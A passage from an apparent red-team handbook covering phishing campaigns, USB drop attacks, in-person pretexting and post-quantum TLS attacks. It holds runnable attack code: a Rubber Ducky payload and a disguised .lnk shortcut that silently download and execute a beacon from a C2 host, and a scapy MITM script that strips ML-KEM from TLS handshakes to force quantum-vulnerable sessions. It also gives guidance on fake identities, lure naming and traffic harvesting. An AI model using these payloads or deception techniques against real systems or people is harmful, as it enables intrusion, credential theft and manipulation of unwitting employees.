    "Urgent: Suspicious sign-in attempt detected on your account"
    "Password expiration notice: expires tonight at midnight"
  
  Internal-looking:
    "[COMPANY] HR: Benefits enrollment ends Friday: take action"
    "[MANAGER NAME] shared a document with you"
    "Your performance review is ready for signature"
  
  Targeted by role:
    IT Admin: "Critical: VMware vSphere certificate expiration warning"
    Finance: "Wire transfer confirmation required: invoice attached"
    HR: "New employee onboarding documents: review required"
```

```bash
# GoPhish Campaign Setup:
wget https://github.com/gophish/gophish/releases/latest/download/gophish-v0.12.1-linux-64bit.zip
unzip gophish-v0.12.1-linux-64bit.zip && chmod +x gophish && ./gophish
# Admin interface: https://localhost:3333

# GoPhish tracks: email sent, opened, clicked, data submitted, reported

# GoPhish workflow:
# 1. Sending Profile: configure SMTP (Zoho/Gmail SMTP with phishing domain)
# 2. Email Template: paste HTML email; mark {{.URL}} where link goes
# 3. Landing Page: credential harvest page (or Evilginx3 AiTM target)
# 4. Users & Groups: import target email list (CSV)
# 5. Campaign: link everything; schedule; launch

# Campaign success benchmarks:
# Baseline: > 30% open rate, > 15% click rate (untrained organization)
# Good: > 50% open rate, > 30% click rate (well-crafted spear phish)
# Excellent: > 70% open rate, credential submission from > 20% of clickers
```

---

### 2.5 USB DROP ATTACKS

```
WHAT IT IS:
  Placing USB drives in locations where target employees are likely to find and plug them in.
  Human psychology: "Free USB drive!" or "I wonder what is on this?" drives insertion.

PAYLOAD OPTIONS:
  1. Rubber Ducky / USB Rubber Ducky 3 ($80): HID (keyboard) attack device
     Appears as a keyboard: executes keystrokes automatically on insertion
     Use: delivers a PowerShell payload to open a reverse shell

  2. Malicious .lnk shortcut (no special hardware needed):
     Create a .lnk file that executes a PowerShell download cradle on double-click
     Name it something irresistible: "Q4_Bonuses_2027.lnk" or "Layoff_List.lnk"
     Hide in a folder named "CONFIDENTIAL" for maximum click rate

  3. BadUSB (firmware-based HID attack): ATtiny85 ($3) loaded with DigiSpark firmware
     Cheaper than Rubber Ducky; slightly less reliable

USB RUBBER DUCKY: REVERSE SHELL PAYLOAD
```

```bash
# Rubber Ducky payload (DuckyScript 3.0):
# Save as payload.txt, inject with DuckyScript encoder

DELAY 2000
GUI r
DELAY 500
STRING powershell -nop -w hidden -e [BASE64_ENCODED_PAYLOAD]
ENTER

# Generate the base64 payload (Sliver HTTPS beacon IEX download cradle):
PAYLOAD_URL="https://your-c2.yourdomain.com/beacon.ps1"

# Encode for Rubber Ducky:
python3 -c "
import base64
cmd = 'IEX (New-Object Net.WebClient).DownloadString(\"' + '$PAYLOAD_URL' + '\")'
b64 = base64.b64encode(cmd.encode('utf-16-le')).decode()
print(b64)
"
```

```
MALICIOUS LNK FILE CREATION:
```

```powershell
# Create a malicious .lnk shortcut that executes a payload silently:
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut("$env:TEMP\Q4_Bonuses_2027.lnk")
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = "-nop -w hidden -c `"IEX (New-Object Net.WebClient).DownloadString('https://your-c2.yourdomain.com/b.ps1')`""
$shortcut.IconLocation = "%SystemRoot%\system32\shell32.dll,3"  # Folder icon
$shortcut.WindowStyle = 7   # Minimized window: hides the PowerShell window
$shortcut.Save()
# Result: a .lnk that looks like a folder named "Q4_Bonuses_2027"
# On double-click: silently pulls and executes the beacon
```

```
DEPLOYMENT STRATEGY:
  Locations for maximum pickup rate:
    Parking lot near employee entrance: employees find drives before entering
    Reception desk: "lost and found" area
    Break room / kitchen: people are idle, curious
    Conference room: after a meeting, before the next group arrives
    Elevator floor: people pick things up reflexively

  Label technique: handwrite "Confidential" or "HR 2027" on the drive
  Icon technique: use a folder icon (.lnk shortcut) so it does not look like an .exe

TRACK WHICH DRIVES TRIGGERED:
  Each drive gets a unique callback URL (GoPhish tracking or unique C2 subdomain)
  USB-01: https://c2.yourdomain.com/usb01/beacon.ps1
  USB-02: https://c2.yourdomain.com/usb02/beacon.ps1
  Report includes: which drives triggered, from which subnets, at what times
```

---

### 2.6 IN-PERSON SOCIAL ENGINEERING: NON-VERBAL AND BODY LANGUAGE

```
NON-VERBAL SIGNALS OF LEGITIMACY:

  Posture: upright, open posture signals confidence and authority
           Slouching or looking around nervously signals uncertainty (detected by guards)

  Eye contact: make natural eye contact at reception and with security staff
               Looking away when challenged reads as deceptive

  Pace: confident, purposeful walk (not fast/running: not slow/hesitant)

  Hands: carry something (clipboard, laptop, bag): hands occupied signals purpose
         Hands in pockets: signals idleness or nervousness

  Dress: precisely matched to the pretext role
         Over-dressed for a maintenance role: suspicious
         Under-dressed for an executive meeting: suspicious

READING TARGET NON-VERBAL SIGNALS:
  Signs they are suspicious:
    - Prolonged eye contact after you have spoken (evaluating you)
    - Looking at your badge more than once
    - Pulling out their phone after you pass (checking your credentials)
    - Following you with their eyes longer than normal
    
  Response to suspicion signals:
    - Do not increase pace (guilty behavior)
    - Make brief, natural eye contact and nod (confident acknowledgment)
    - Continue your current task without deviation
    - If followed: proceed directly to your stated destination

BUILDING INSTANT RAPPORT (10-second technique):
  "Good morning!": brief, warm, matching their energy
  Name use: "Thanks so much [RECEPTIONIST NAME]": makes interaction personal
  One genuine observation: "Crazy weather out there today": establishes normalcy
  Limit: one exchange. Do not over-invest. In-and-out. Natural.

HANDLING ESCORT SITUATIONS:
  If you are escorted: you are observed the whole time.
  Do not touch anything outside your stated task.
  Maintain light conversation that reinforces your legend.
  Deploy hardware implant only if you have a brief moment unobserved (restroom break
  by the escort is the standard window: ask to use the restroom on the way).
  
  Deploy speed benchmark: 45 seconds from arrival at the port to departure.
  Practice in the lab until this is comfortable.
```

---

### 2.7 PRETEXT ABORT SIGNALS AND RECOVERY

```
TIER 1 ABORT (soft stop: continue from a different angle):
  Signal: target asks a question your legend cannot answer
  Response: "That is a great question: I am going to need to check with the
  office and get back to you on that. Can I leave my card?"
  [Exit without completing the objective. Do not force it. Replan.]

TIER 2 ABORT (hard stop: exit immediately):
  Signal: target is making a verification call to the real department
  Response: "Absolutely: please do. I will wait right outside while you sort that out."
  [Walk to the elevator. Do not come back. The engagement at this entry point is over.]

TIER 3 ABORT (emergency: active challenge):
  Signal: security guard or manager confronting you directly
  Response options:
    A. "My apologies: I think I may have the wrong floor. I am looking for [different floor]."
       Play confused. Follow their directions. Exit at the first opportunity.
    B. Show the authorization letter (always carry it): "I have authorization here
       from [client CISO name]. Would you like to call them to verify?"
       The letter is your get-out-of-jail card. It exists for exactly this moment.
    C. If police are called: immediately identify as a red team operator.
       Invoke the authorization letter and the emergency contact number.
       Do not resist. Do not lie to law enforcement once physical confrontation occurs.

POST-ABORT PROCEDURE:
  - Note the time, location, the person who challenged you, and what triggered it
  - Document in the engagement log
  - Debrief with team lead before attempting a second entry at the same location
  - Identify what burned the pretext and fix it before the next attempt
```

---

### 2.8 PERSONA DEVELOPMENT AND IDENTITY LEGENDS

```
A LEGEND IS NOT A LIE: IT IS A ROLE
  The best pretext holds under real scrutiny because the details are internally consistent
  and verifiable enough to be plausible without requiring the target to actually verify them.

LEGEND CONSTRUCTION (4-hour minimum):

  Step 1: Choose a base identity
    Use a real company that operates in the target industry (visible on LinkedIn)
    Use a role title that makes your access logical ("IT Support Engineer" for server rooms)
    Choose a name that is plausible but not easily googled to a specific person
    (Common first name + common last name = hard to verify as "definitely not a real employee")

  Step 2: Build the legend kit
    Business cards: Vistaprint or Canva ($15 for 100 cards)
    Email address: set up before the engagement on your phishing domain or a lookalike
    Work order: Microsoft Word template with company letterhead (download logo from their site)
    LinkedIn profile (optional, for high-value targets):
      Create under the legend name, connect with 50+ generic profiles,
      set employment to the vendor company,
      age the profile at least 30 days before use

  Step 3: Stress-test your legend
    Have a colleague play a suspicious receptionist and ask 10 verification questions.
    Every question you hesitate on is a gap. Fill the gap before the engagement.
    Common questions:
      "What is the ticket number for this work order?"  --> Have one ready (made up but plausible)
      "Who is your manager?"                            --> Have a name ready
      "What company are you with again?"               --> Answer without breaking pace
      "Do you have a photo ID?"                         --> Have a backup (driver license under
                                                           the legend name is high-effort but available
                                                           in some jurisdictions via prop sources)

  Step 4: Maintain character for 20+ minutes
    Role-play as your legend for 20 minutes with a colleague probing you.
    If you break character before 20 minutes: the legend needs more work.

LEGEND CLEANUP:
  After every engagement: delete the email account, deactivate the LinkedIn profile,
  dispose of the business cards (shred). Never reuse the same legend twice.
```

---

### 2.9 SE CAMPAIGN PLANNING AND METRICS

```
CAMPAIGN STRUCTURE (multi-wave):

  Wave 1: Phishing (lowest risk, broadest reach)
    Establish baseline click rate and credential submission rate.
    Learn which departments are most susceptible before committing to higher-risk vectors.

  Wave 2: Vishing (higher complexity, higher yield)
    Target the highest-value roles identified from Wave 1 data.
    Target people who clicked in Wave 1: they are already susceptible.

  Wave 3: USB Drop (physical escalation)
    Target locations frequented by employees in susceptible departments.

  Wave 4: In-Person SE (highest risk, highest yield)
    Informed by all prior waves. You know the floor, the receptionist name,
    the IT contact, the badge design. Now you walk in.

SUCCESS METRICS (report in all four categories):

  Email phishing:
    Open rate (opened / delivered): target > 30%
    Click rate (clicked / opened): target > 20%
    Credential submission rate (submitted / clicked): target > 15%
    Reporting rate (reported to IT / delivered): baseline for client awareness

  Vishing:
    Calls attempted vs. calls completed (target: 80%+ completion)
    Information disclosure rate (gave information vs. refused)
    Credential disclosure rate (gave password/OTP vs. refused)
    Average call length to successful disclosure

  USB Drop:
    Drives deployed vs. drives inserted (target: > 40% insertion rate)
    Payloads executed vs. drives inserted
    Time from drop to first callback (measures detection gap)

  Physical:
    Entry attempts vs. successful entries
    Duration undetected
    Objectives achieved per entry
    Number of hardware implants successfully deployed and retrieved
```

---

## SECTION 3: QUANTUM COMPUTING 2027

> The cryptographic foundation of almost every secure system you will encounter is mathematically vulnerable to a machine that does not fully exist yet. The key insight: it does not need to exist yet. The data needs to exist now.

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### 3.1 THE THREAT MODEL

```
WHAT QUANTUM COMPUTING ACTUALLY THREATENS:

ASYMMETRIC CRYPTOGRAPHY (ALL BROKEN by Shor's Algorithm):
  RSA-2048:       broken in ~hours on a CRQC
  RSA-4096:       broken in ~days on a CRQC
  ECDSA P-256:    broken (Shor's discrete log attack)
  ECDH:           key exchange broken: all past session keys exposed
  Ed25519:        broken (discrete log on elliptic curve)
  DH-2048/4096:   broken
  
  These protect: HTTPS/TLS, SSH, PGP, JWT (RS256/ES256), S/MIME,
                 VPN (IKE phase 1/2), code signing, Bitcoin/Ethereum

SYMMETRIC CRYPTOGRAPHY (weakened but NOT fully broken):
  AES-128:  Grover's algorithm gives effective 64-bit security: BROKEN post-CRQC
  AES-256:  Grover's gives effective 128-bit security: SAFE
  SHA-256:  Grover's halves preimage resistance: still adequate
  ChaCha20: safe (symmetric stream cipher)

UNDERSTANDING SHOR'S ALGORITHM (for client explanation):
  Classical computers factor large numbers in O(exponential) time.
  A quantum computer using Shor's does it in polynomial time O((log N)^3).
  Practical meaning: RSA-2048 factoring classically takes longer than the age
  of the universe. A CRQC does it in hours. RSA's security is gone.

UNDERSTANDING GROVER'S ALGORITHM:
  Grover's searches an unstructured space in O(sqrtN) instead of O(N).
  AES-128: 2^128 classical ops --> 2^64 with Grover's --> broken.
  AES-256: 2^256 --> 2^128 --> still computationally infeasible. Use AES-256.

KEY INSIGHT: THE SNDL THREAT
  You do not need a CRQC today.
  You need the TRAFFIC captured today.
  Store Now, Decrypt Later (SNDL): harvest encrypted traffic now,
  archive it, decrypt it when CRQC is available in 5-10 years.
  
  Nation-state adversaries began SNDL programs circa 2018.
  High-value targets: government comms, financial systems, healthcare records,
  executive email, VPN sessions, SSH administrative sessions.
  
  As a red team operator: demonstrate SNDL capability. Show the client what
  is being harvested today that will be readable in 2032.
```

---

### 3.2 SNDL COLLECTION INFRASTRUCTURE

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

```bash
# ===== ZEEK SETUP FOR PROTOCOL-AWARE COLLECTION =====

# Install Zeek on Ubuntu 22.04+:
sudo apt-get update && sudo apt-get install -y zeek zeek-broctl
echo 'export PATH=/opt/zeek/bin:$PATH' >> ~/.bashrc && source ~/.bashrc

# Configure capture interface in /opt/zeek/etc/node.cfg:
# [zeek]
# type=standalone
# host=localhost
# interface=eth0

# Run Zeek:
zeekctl deploy

# Zeek auto-generates structured logs in /opt/zeek/logs/current/:
# ssl.log   : TLS sessions (cipher suites, cert chains, JA3 fingerprints)
# ssh.log   : SSH sessions (key exchange algorithm, cipher, MAC)
# x509.log  : certificate details (key type, key size, subject, issuer)
# conn.log  : all connections (src/dst/port/duration/bytes)

# SNDL FILTER: flag quantum-vulnerable TLS sessions:
cat > /opt/zeek/share/zeek/site/sndl-filter.zeek << 'EOF'
@load base/protocols/ssl

event ssl_established(c: connection)
    {
    local cipher = (c$ssl?$cipher)  ? c$ssl$cipher  : "";
    local subject = (c$ssl?$subject) ? c$ssl$subject : "";

    # Flag quantum-vulnerable cipher suites:
    if (/RSA/ in cipher || /ECDSA/ in cipher || /ECDHE/ in cipher || /DHE/ in cipher)
        {
        print fmt("[SNDL] %s -> %s | Cipher: %s | Subject: %s | Port: %s",
            c$id$orig_h, c$id$resp_h, cipher, subject, c$id$resp_p);
        }
    }
EOF

echo "@load sndl-filter" >> /opt/zeek/share/zeek/site/local.zeek
zeekctl restart
```

```bash
# ===== TARGETED PCAP COLLECTION =====
# Store TLS handshakes for future decryption.
# The handshake contains the key exchange material.

# Capture full TLS handshakes (common TLS ports):
tcpdump -i eth0 \
  'tcp and (port 443 or port 8443 or port 465 or port 993 or port 995)' \
  -w /storage/sndl/raw/$(date +%Y%m%d_%H%M%S)_tls.pcap \
  -G 3600 \       # Rotate capture file every 1 hour
  -C 500 \        # Rotate at 500MB (whichever comes first)
  -z gzip         # Compress each rotated file immediately

# Capture VPN/IPsec key exchange (IKE negotiations):
tcpdump -i eth0 '(udp port 500 or udp port 4500)' \
  -w /storage/sndl/raw/$(date +%Y%m%d_%H%M%S)_vpn.pcap -G 3600 -z gzip

# Capture SSH key exchange (first 2KB of each SSH session):
tcpdump -i eth0 'tcp port 22' \
  -s 2048 \       # Snap length: first 2KB per packet (key exchange only)
  -w /storage/sndl/raw/$(date +%Y%m%d_%H%M%S)_ssh.pcap -G 3600 -z gzip

# STORAGE SCHEMA:
# /storage/sndl/
#   raw/          <- compressed PCAPs (organized by date)
#   processed/    <- Zeek logs (JSON format, indexed)
#   index/        <- SQLite DB for future retrieval queries
#   metadata/     <- source info, collection date, target classification

# SQLite index for future retrieval:
sqlite3 /storage/sndl/index/collection.db << 'SQLEOF'
CREATE TABLE IF NOT EXISTS captures (
    id           INTEGER PRIMARY KEY,
    filename     TEXT NOT NULL,
    src_ip       TEXT,
    dst_ip       TEXT,
    dst_port     INTEGER,
    cipher_suite TEXT,
    cert_subject TEXT,
    key_type     TEXT,
    key_bits     INTEGER,
    collected_at DATETIME DEFAULT CURRENT_TIMESTAMP,
    target_tag   TEXT,
    priority     INTEGER DEFAULT 3,
    notes        TEXT
);
CREATE INDEX IF NOT EXISTS idx_dst_ip       ON captures(dst_ip);
CREATE INDEX IF NOT EXISTS idx_cipher_suite ON captures(cipher_suite);
CREATE INDEX IF NOT EXISTS idx_priority     ON captures(priority);
CREATE INDEX IF NOT EXISTS idx_collected_at ON captures(collected_at);
SQLEOF
echo "[*] SNDL collection infrastructure ready."
```

---

### 3.3 PQC MIGRATION ATTACK: DOWNGRADE

```
THE ATTACK CONCEPT:
  During the 2025-2030 PQC migration window, servers offer HYBRID mode:
  both classical (RSA/ECDH) AND PQC (ML-KEM) cipher suites in their TLS ServerHello.

  Attack: if an MITM attacker strips ML-KEM cipher suites from the TLS ClientHello
  before it reaches the server, the server falls back to classical cipher suites
  (it thinks the client does not support PQC).
  
  Result: session uses RSA/ECDH --> quantum-vulnerable --> archive with SNDL.
  
  Prerequisites:
    MITM position on the network (ARP spoofing, rogue AP, LAN Turtle implant)
    Target server must support hybrid TLS (2025-2030 migration window)
```

```python
#!/usr/bin/env python3
"""
PQC Downgrade Attack: Strip ML-KEM from TLS ClientHello
Forces server to fall back to classical (quantum-vulnerable) cipher suites.
Requirements: pip3 install scapy
"""

from scapy.all import *
import struct, logging

logging.basicConfig(level=logging.INFO, format='[%(levelname)s] %(message)s')
log = logging.getLogger(__name__)

# ML-KEM / PQC cipher suite identifiers (IANA assigned 2024):
PQC_CIPHER_IDS = {
    b'\x63\x99',  # TLS_ECDHE_MLKEM768_RSA_WITH_AES_256_GCM_SHA384
    b'\x63\x9A',  # TLS_ECDHE_MLKEM768_ECDSA_WITH_AES_256_GCM_SHA384
    b'\xFE\x30',  # TLS_ML_KEM_768 (draft implementations)
    b'\xFE\x31',  # TLS_ML_KEM_1024 (draft implementations)
}

# PQC group identifiers in TLS supported_groups extension:
PQC_GROUP_IDS = {
    0x0200,  # X25519MLKEM768
    0x0201,  # SecP256r1MLKEM768
    0x030B,  # ML-KEM-512
    0x030C,  # ML-KEM-768
}

TLS_EXT_SUPPORTED_GROUPS = 0x000A
TLS_EXT_KEY_SHARE        = 0x0033


def strip_pqc_from_cipher_suites(data: bytes) -> bytes:
    """Remove ML-KEM cipher suites from the cipher suites list."""
    out, removed = bytearray(), 0
    for i in range(0, len(data) - 1, 2):
        pair = data[i:i+2]
        if pair not in PQC_CIPHER_IDS:
            out.extend(pair)
        else:
            log.info(f"Removed PQC cipher: {pair.hex()}")
            removed += 1
    log.info(f"Stripped {removed} PQC cipher suite(s)")
    return bytes(out)


def strip_pqc_from_supported_groups(ext_data: bytes) -> bytes:
    """Remove ML-KEM groups from supported_groups extension."""
    if len(ext_data) < 2:
        return ext_data
    list_len = struct.unpack('!H', ext_data[:2])[0]
    groups_raw = ext_data[2:2 + list_len]
    out, removed = bytearray(), 0
    for i in range(0, len(groups_raw) - 1, 2):
        gid = struct.unpack('!H', groups_raw[i:i+2])[0]
        if gid not in PQC_GROUP_IDS:
            out.extend(groups_raw[i:i+2])
        else:
            log.info(f"Removed PQC group: 0x{gid:04x}")
            removed += 1
    log.info(f"Stripped {removed} PQC group(s)")
    new_list = bytes(out)
    return struct.pack('!H', len(new_list)) + new_list


def patch_client_hello(raw_tls: bytes) -> bytes:
    """Parse a raw TLS ClientHello and strip all PQC identifiers."""
    if len(raw_tls) < 5:
        return raw_tls
    ct, vm, vn, rec_len = struct.unpack('!BBBH', raw_tls[:5])
    if ct != 0x16 or vm != 0x03:
        return raw_tls
    payload = bytearray(raw_tls[5:5 + rec_len])
    if payload[0] != 0x01:  # 0x01 = ClientHello
        return raw_tls

    offset = 4 + 34  # Skip handshake header (4) + ClientVersion + Random (34)
    session_id_len = payload[offset]
    offset += 1 + session_id_len

    cs_len = struct.unpack('!H', bytes(payload[offset:offset+2]))[0]
    offset += 2
    cs_end = offset + cs_len
    old_ciphers = bytes(payload[offset:cs_end])
    new_ciphers = strip_pqc_from_cipher_suites(old_ciphers)
    payload[offset-2:offset] = struct.pack('!H', len(new_ciphers))
    payload[offset:cs_end] = new_ciphers
    offset += len(new_ciphers)

    comp_len = payload[offset]
    offset += 1 + comp_len

    if offset + 2 > len(payload):
        pass
    else:
        ext_total = struct.unpack('!H', bytes(payload[offset:offset+2]))[0]
        offset += 2
        ext_start, ext_end = offset, offset + ext_total
        new_exts, i = bytearray(), ext_start
        while i < ext_end:
            etype = struct.unpack('!H', bytes(payload[i:i+2]))[0]
            elen  = struct.unpack('!H', bytes(payload[i+2:i+4]))[0]
            edata = bytes(payload[i+4:i+4+elen])
            if etype == TLS_EXT_SUPPORTED_GROUPS:
                edata = strip_pqc_from_supported_groups(edata)
                elen  = len(edata)
            elif etype == TLS_EXT_KEY_SHARE:
                ks_list_len = struct.unpack('!H', edata[:2])[0]
                ks_raw = edata[2:2 + ks_list_len]
                new_ks, j = bytearray(), 0
                while j < len(ks_raw):
                    ks_group = struct.unpack('!H', ks_raw[j:j+2])[0]
                    ks_klen  = struct.unpack('!H', ks_raw[j+2:j+4])[0]
                    if ks_group not in PQC_GROUP_IDS:
                        new_ks.extend(ks_raw[j:j+4+ks_klen])
                    j += 4 + ks_klen
                edata = struct.pack('!H', len(new_ks)) + bytes(new_ks)
                elen  = len(edata)
            new_exts.extend(struct.pack('!HH', etype, elen))
            new_exts.extend(edata)
            i += 4 + elen
        payload[ext_start-2:ext_start] = struct.pack('!H', len(new_exts))
        payload[ext_start:ext_end] = new_exts

    new_hs_len = len(payload) - 4
    payload[1:4] = struct.pack('!I', new_hs_len)[1:]
    return struct.pack('!BBBH', ct, vm, vn, len(payload)) + bytes(payload)


TARGET_IP = "10.0.0.1"   # Server IP you are intercepting toward
IFACE     = "eth0"

def packet_callback(pkt):
    """Intercept TCP packets: patch TLS ClientHellos."""
    if pkt.haslayer(TCP) and pkt.haslayer(Raw):
        data = bytes(pkt[Raw].load)
        if len(data) > 5 and data[0] == 0x16 and data[1] == 0x03 and data[5] == 0x01:
            log.info(f"[*] TLS ClientHello detected from {pkt[IP].src}")
            patched = patch_client_hello(data)
            if patched != data:
                log.info(f"[+] PQC downgrade applied. Forwarding classical-only.")
                pkt[Raw].load = patched
                del pkt[IP].len; del pkt[IP].chksum; del pkt[TCP].chksum
                send(pkt, verbose=False)
                return
    send(pkt, verbose=False)

if __name__ == "__main__":
    log.info(f"[*] PQC Downgrade MITM started on {IFACE}")
    log.info(f"[*] Intercepting TLS toward {TARGET_IP}")
    sniff(iface=IFACE,
          filter=f"tcp and dst host {TARGET_IP} and tcp dst port 443",
          prn=packet_callback, store=False)
```

---

### 3.4 ML-KEM TIMING SIDE-CHANNEL ANALYSIS

```bash
# ===== COMPLETE LAB SETUP =====

sudo apt-get update
sudo apt-get install -y python3-pip cmake ninja-build libssl-dev git build-essential

# Install liboqs (Open Quantum Safe):
git clone --depth 1 https://github.com/open-quantum-safe/liboqs
cd liboqs && mkdir build && cd build
cmake -GNinja -DCMAKE_BUILD_TYPE=Release -DOQS_ENABLE_KEM_KYBER=ON ..
ninja && sudo ninja install && sudo ldconfig && cd ../..

# Install Python OQS bindings + analysis tools:
pip3 install oqs numpy scipy matplotlib --break-system-packages

# Verify:
python3 -c "import oqs; print('OQS OK:', oqs.get_enabled_KEM_mechanisms())"
```

```python
#!/usr/bin/env python3
"""
ML-KEM Timing Side-Channel Analysis Lab
Demonstrates timing variance in decapsulation for valid vs. invalid ciphertexts.

IMPORTANT NOTES FOR ACCURACY:
  - Real side-channel work requires >100,000 samples (this script shows the method)
  - For statistically significant results: pin CPU affinity and disable OS jitter:
      taskset -c 0 python3 mlkem_timing.py
      (pins the process to CPU core 0: reduces OS scheduling interference)
  - Use RDTSC-level timing for nanosecond precision (requires ctypes + Linux perf)
  - General-purpose OS introduces ~50-200ns jitter: use bare metal, not a VM

Requirements: oqs numpy scipy matplotlib
"""

import time, oqs, numpy as np, scipy.stats as stats
import matplotlib.pyplot as plt, secrets

KEM_ALGORITHM = "ML-KEM-768"
N_SAMPLES     = 5_000    # Increase to 100,000+ for real analysis
WARMUP_RUNS   = 500      # CPU cache warmup runs before measurement

def setup_kem():
    kem = oqs.KeyEncapsulation(KEM_ALGORITHM)
    pub_key = kem.generate_keypair()
    ciphertext, ss = kem.encap_secret(pub_key)
    return kem, ciphertext

def invalid_ct(valid_ct: bytes) -> bytes:
    """Flip 1-4 random bytes to create an invalid ciphertext."""
    inv = bytearray(valid_ct)
    for _ in range(secrets.randbelow(4) + 1):
        inv[secrets.randbelow(len(inv))] ^= secrets.randbelow(256)
    return bytes(inv)

def measure(kem, valid_ct: bytes, n: int):
    valid_t, invalid_t = [], []
    
    print(f"[*] Warming up ({WARMUP_RUNS} runs) ...")
    for _ in range(WARMUP_RUNS):
        try: kem.decap_secret(valid_ct)
        except: pass
    
    print(f"[*] Collecting {n} samples per category ...")
    inv_ct = invalid_ct(valid_ct)
    
    for i in range(n):
        # Alternate valid / invalid to avoid temporal bias:
        t0 = time.perf_counter_ns()
        try: kem.decap_secret(valid_ct)
        except: pass
        valid_t.append(time.perf_counter_ns() - t0)
        
        t0 = time.perf_counter_ns()
        try: kem.decap_secret(inv_ct)
        except: pass
        invalid_t.append(time.perf_counter_ns() - t0)
        
        if (i + 1) % 1000 == 0:
            print(f"  Progress: {i+1}/{n}")
    
    return np.array(valid_t), np.array(invalid_t)

def analyze(valid_t, invalid_t):
    print(f"\n{'='*55}")
    print(f"  ML-KEM TIMING ANALYSIS RESULTS")
    print(f"{'='*55}")
    print(f"  Samples:         {len(valid_t):,} per category")
    print(f"  Valid   - Mean:  {np.mean(valid_t):.1f} ns   "
          f"Std: {np.std(valid_t):.1f} ns   "
          f"Median: {np.median(valid_t):.1f} ns")
    print(f"  Invalid - Mean:  {np.mean(invalid_t):.1f} ns   "
          f"Std: {np.std(invalid_t):.1f} ns   "
          f"Median: {np.median(invalid_t):.1f} ns")
    
    t_stat, p_value = stats.ttest_ind(valid_t, invalid_t, equal_var=False)
    print(f"\n  Welch t-test (H0: means are equal):")
    print(f"    t-statistic: {t_stat:.4f}")
    print(f"    p-value:     {p_value:.6f}")
    
    if p_value < 0.05:
        delta = abs(np.mean(valid_t) - np.mean(invalid_t))
        print(f"    RESULT: STATISTICALLY SIGNIFICANT timing difference detected")
        print(f"    Delta:  {delta:.1f} ns")
        print(f"    This implementation may be vulnerable to timing side-channel attack.")
    else:
        print(f"    RESULT: No significant timing difference detected at n={len(valid_t):,}")
        print(f"    Increase sample count or run on dedicated bare-metal hardware.")
    print(f"{'='*55}")
    
    # Plot distribution:
    plt.figure(figsize=(12, 5))
    plt.subplot(1, 2, 1)
    plt.hist(valid_t,   bins=80, alpha=0.6, color='blue',  label='Valid CT')
    plt.hist(invalid_t, bins=80, alpha=0.6, color='red',   label='Invalid CT')
    plt.xlabel('Decapsulation time (ns)')
    plt.ylabel('Count')
    plt.title(f'ML-KEM-768 Decapsulation Timing (n={len(valid_t):,})')
    plt.legend()
    
    plt.subplot(1, 2, 2)
    plt.boxplot([valid_t, invalid_t], labels=['Valid CT', 'Invalid CT'])
    plt.ylabel('Decapsulation time (ns)')
    plt.title('Timing Distribution Boxplot')
    
    plt.tight_layout()
    plt.savefig('/tmp/mlkem_timing.png', dpi=150)
    print(f"\n[*] Plot saved: /tmp/mlkem_timing.png")

if __name__ == "__main__":
    print(f"[*] Setting up {KEM_ALGORITHM} key pair ...")
    kem, valid_ct = setup_kem()
    valid_t, invalid_t = measure(kem, valid_ct, N_SAMPLES)
    analyze(valid_t, invalid_t)
```

---

### 3.5 CRYPTOGRAPHIC INVENTORY AUDIT SCRIPT

```bash
#!/usr/bin/env bash
# Quantum-Vulnerable Cryptography Audit Script
# Scans a network for systems using RSA/ECDH key exchange (SNDL targets)
# Requirements: nmap, openssl, awk, grep

TARGET_CIDR="${1:-192.168.1.0/24}"
OUTPUT_DIR="/tmp/crypto_audit_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$OUTPUT_DIR"

echo "================================================================"
echo "  CRYPTOGRAPHIC INVENTORY AUDIT"
echo "  Target: $TARGET_CIDR"
echo "  Output: $OUTPUT_DIR"
echo "================================================================"

# Step 1: Discover live hosts and TLS-capable ports
echo "[*] Scanning for live hosts and TLS ports ..."
nmap -sS -p 443,8443,465,993,995,8080,22 \
     --open -T4 -oG "$OUTPUT_DIR/hosts.gnmap" \
     "$TARGET_CIDR" 2>/dev/null

# Extract IP:port combinations
grep "Ports:" "$OUTPUT_DIR/hosts.gnmap" | \
    awk '{for(i=1;i<=NF;i++) if($i~/\/open\//) print $2, $i}' | \
    sed 's|/.*||' > "$OUTPUT_DIR/tls_targets.txt"

